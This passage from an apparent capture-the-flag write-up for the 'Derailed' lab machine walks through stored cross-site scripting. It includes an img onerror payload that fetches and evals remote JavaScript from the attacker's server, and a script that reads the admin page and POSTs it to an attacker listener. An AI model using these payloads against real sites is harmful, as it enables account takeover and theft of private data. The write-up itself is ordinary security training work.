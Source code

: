 Having bypassed the CORS issue, I still want to see if I can load code from my server and run it. I’ll update my username by replacing `console.log(t)` with `eval(t)`:

```

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/xss.js').then(r => r.text()).then(t => {eval(t)});" />

```

If this works, there will be an alert window in the browser, and it will mean that I can simple update the local file and refresh, without having to logout, register, log back in, create a post, and view it. On doing that one last time, there’s a hit at my webserver and then an alert on the page:

![image-20230719183731818](/img/image-20230719183731818.png)

#### Remote POC

The plan is to submit this ticket to the admin for review. Getting a popup on their browser isn’t useful (and is counterproductive in the real world). I’ll update `xss.js` to just an empty file, and go through the process of reporting on of the posts made by this latest user. A few seconds later, there’s a hit on the webserver from Derailed:

```
10.10.11.190 - - [19/Jul/2023 18:43:09] "GET /xss.js HTTP/1.1" 200 -

```

This shows that the user on Derailed viewed the XSS note and it worked, meaning that I can run code in that user’s browser.

## Shell as rails

### Enumerating /administration

#### Fetch

I’m interested in seeing what `/administration` looks like. I’ll write a JavaScript payload that will fetch that and exfil it to me:

```

fetch('http://derailed.htb:3000/administration')
  .then(resp => resp.text())
  .then(html => { 
    fetch('http://10.10.14.6:9001/exfil', {
      method: "POST",
      body: html,
    })
  });

```

I’ll save this resubmit the note for review. I’ll start `nc` on port 9001 to capture the POST with the page in the body. After a minute, there’s a hit:
